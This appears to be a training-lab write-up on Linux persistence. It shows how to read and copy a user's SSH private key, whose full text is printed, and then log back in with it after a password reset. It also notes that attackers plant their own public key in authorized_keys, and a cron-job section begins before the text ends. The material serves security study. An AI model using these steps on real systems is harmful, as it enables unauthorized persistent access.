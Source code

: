 # 🔬Linux Persistence

## Lab 1 - SSH <a href="#lab-1-ssh" id="lab-1-ssh"></a>

> 🔬 [Maintaining access I](https://www.attackdefense.com/challengedetails?cid=954)
>
> * Target IP: `192.3.140.3`
> * **Persistence** via **SSH Keys**, even after user credentials are modified
> * Initial credentials: `student` :`password`

```bash
ifconfig
    192.61.149.3
```

```bash
ssh student@192.61.149.3
```

<figure><img src="../../../../.gitbook/assets/image (307).png" alt=""><figcaption></figcaption></figure>

### SSH Keys <a href="#ssh-keys" id="ssh-keys"></a>

```bash
ls -al
    total 24
    drwxr-xr-x 1 student student 4096 Aug  9 15:36 .
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
    drwx------ 2 student student 4096 Aug  9 15:36 .cache
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 .ssh
    -rw-r--r-- 1 student student   91 Apr 26  2019 wait
    
cat wait
    Delete this file to trigger connection reset.
    
    Delete it only after planting the backdoor.
    
cd .ssh

ls
    authorized_keys  id_rsa
```

* Show the **private key** inside `id_rsa`

```bash
cat id_rsa 

    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA3JH1zC1WJuJ2KCPf1UdJe1dX+Uh4aE9RKsnuQk124eOB601/
    8+Q6uJej38goVYQ7Dc4INK9Pq9cOs+uDQfRdjS1/9S7a0bDVORR6Q/E3dya0RDsz
    LcaqX6LkPgnBZ2gS37E4mX6kiwEvYeqaAGyFqyfn+QPLos/Znc3EA4A71LPFg01b
    AmpI6Gbaa7UUG+MCZoM0qDNo5Mzr5bmtCnVOKQ6n0Qx7znu5A2p00TfzmAo7erZ8
    6xJUfXQoVFzqmINqhZKFZtjgV5nk/qHgn1BPyd6NoWeXADdIJKi7iq4jomT+Ny+/
    HlxrAs1IJhxtrSExSMTkqmH/3KeX9ibBWXzY1QIDAQABAoIBAEO0liOvgvN6rlRR
    9sJMGJVA0WNWyIcUWdDtnTJC/wwFvvqQlocx9oh1G7t0gFUHuuzY4pHxgl44LG40
    C91x+kl8vvtu/4JAaqMT0xgJ8kGj4s/S8DnL8r5ajP8yFWj9fFWn27zaL/3vRjEj
    R1R7+2f3XvCEJrz6Wk1jPRjqAvOeDRGH3ojsQwWO7k/FcvtqVBCPTGxyUBzXYv06
    fM3OY5NL8D7t/bLoHa8dVhqjPnfUR7/IpiAdxEam1X0ObPB5YyBwSlpj6h904bF/
    +U697IE23xjVmKMKcvTLe6QAxuRGSMf3/k3rCpDd3UxYF+P2e0CK3MefWjKpAe8r
    2xRXyB0CgYEA+7zgmuhJqjik8tbt6b6+ZAJZ68TqLE1f3YEW/LivMeMj5tQZo/w+
    0ZJnr6hR3eicMMxWKufGXSEtbs1TzMGvA5SXI9MTu62a5A2h7NDbLuKRwdjh9Qv6
    TocFSMTSFcS4jvmbeYlVaSZWrJLLKY6lsjgdjDB4DH7Uc0Anxdr//GsCgYEA4E39
    rlB7GWoCX7oXpSEGCHkQkmgX5IDU7+UUySFqD8fWoLsAc47R/TmDsKI+x83PF5jG
    oo5P5LmUIeqnAKknTSyfD1YFtMa3tpTE68R9j/uueTK7v5izwWQjicmILm4RdkZJ
    TVVH2b0aIQaUnpWWwHLa+BYx2jH4S2GxH89vz78CgYEA211SyApFLw0fR/Hc7kRm
    OlYGL7qvaR2fvTDhbCYvnKRXQ61uDoUf5JXUvrBJbrtlZ+yX5dmE9OCVa6mHLbVV
    oiQYtIIZ/wCgKbxrbybs6OVMqIQrGtNuMoHcK/Y/L/L19Lk0L2tqPy/GdamRWkxQ
    vYXC0cfmxNS8oxWz0uktCrMCgYB6ufF9OMfBxgD6g4WAciss46CvmojIG71mbL8M
    tV2kuMC0PN0oXRKELL3jHUKga/lNfefg9WC9UtS8IfmyINtCHJIDABwrJzdJjOiZ
    326cIyb5ZUrYsCJaRAI117DNRqgDQL3GtEyV1CPBwin7Avny3mT0rKAmNIUYKaGS
    OBuDXQKBgQDIRYOZEaV8rXx3wN24NYuByNUpRM3AIyPIwAuaPklWD6D2KdDveheI
    lZtRb6Yzzmeon0DuLPdl7e/R7e5Z8Mx3o40aiJLULlw95JqON3J3W471PZAG1L/g
    59PKgUMBNVX9UsUqvHyWlcY/FAT9UhWblgDoN3uXY9Db6q5x7hWzKw==
    -----END RSA PRIVATE KEY-----
```

* Check the [`authorized_keys`](https://www.ssh.com/academy/ssh/authorized-keys-file) file too

```bash
cat authorized_keys 
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDckfXMLVYm4nYoI9/VR0l7V1f5SHhoT1Eqye5CTXbh44HrTX/z5Dq4l6PfyChVhDsNzgg0r0+r1w6z64NB9F2NLX/1LtrRsNU5FHpD8Td3JrREOzMtxqpfouQ+CcFnaBLfsTiZfqSLAS9h6poAbIWrJ+f5A8uiz9mdzcQDgDvUs8WDTVsCakjoZtprtRQb4wJmgzSoM2jkzOvlua0KdU4pDqfRDHvOe7kDanTRN/OYCjt6tnzrElR9dChUXOqYg2qFkoVm2OBXmeT+oeCfUE/J3o2hZ5cAN0gkqLuKriOiZP43L78eXGsCzUgmHG2tITFIxOSqYf/cp5f2JsFZfNjV root@localhost
```

### Persistence <a href="#persistence" id="persistence"></a>

* Exit the `SSH` session and download the `id_rsa` file

```bash
scp student@192.61.149.3:~/.ssh/id_rsa .
chmod 400 id_rsa 
```

<figure><img src="../../../../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

* Log back into the target system and trigger the password and connection reset

```bash
ssh student@192.61.149.3
rm wait
    Connection to 192.61.149.3 closed by remote host.
    Connection to 192.61.149.3 closed.
# Old student's password do not work anymore
```

* Connect to the target using the downloaded private key

```bash
ssh -i id_rsa student@192.61.149.3
```

<figure><img src="../../../../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
**Flag:** `689227a4f1b97afe1ff5ebaf85babc19`
{% endhint %}

> 📌 Instead of using a user's private key, typically the attacker generates an SSH key pair on his system, keeps the private key on his system, transfers the public key onto the target system user's home `.ssh` directory and adds it in the `authorized_keys` file.
>
> * [SSH Penetration Testing](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)

***

## Lab 2 - Cron Jobs <a href="#lab-2-cron-jobs" id="lab-2-cron-jobs"></a>

> 🔬 [T1168: Local Job Scheduling](https://www.attackdefense.com/challengedetails?cid=1553)
>
> * Target IP: `192.175.36.3`
> * **Persistence** via **Cron Jobs**
> * Initial credentials: `student` :`password`
> * 🔬 Check the [Cron Jobs Linux attacks Lab here](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/linux-attacks/cron)

* [Scheduled Task/Job - MITRE ATT\&CK](https://attack.mitre.org/techniques/T1053/)
* [crontab.guru](https://crontab.guru/)

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-cdd2252b21e631f7d116c274f50f7cef57193f43%252Fimage-20230429160832734.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=bc20cf3f&#x26;sv=1" alt=""><figcaption></figcaption></figure>
